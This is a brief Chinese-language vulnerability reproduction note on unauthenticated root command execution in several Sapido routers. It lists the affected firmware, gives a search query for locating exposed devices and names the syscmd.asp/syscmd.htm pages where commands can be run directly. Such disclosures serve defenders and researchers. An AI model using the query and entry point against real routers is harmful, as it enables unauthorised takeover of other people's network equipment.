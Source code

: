 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

<a-checkbox checked>BR270n-v2.1.03</a-checkbox></br>

<a-checkbox checked>BRC76n-v2.1.03</a-checkbox></br>

<a-checkbox checked>GR297-v2.1.3</a-checkbox></br>

<a-checkbox checked>RB1732-v2.0.43</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sapido-路由器"</a-checkbox></br>

## 漏洞复现

固件中存在一个asp文件为 `syscmd.asp` 存在命令执行



![img](../../../.vuepress/public/img/sa-1.png)



访问目标:



```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```



![img](../../../.vuepress/public/img/sa-2.png)



直接输入就可以命令执行了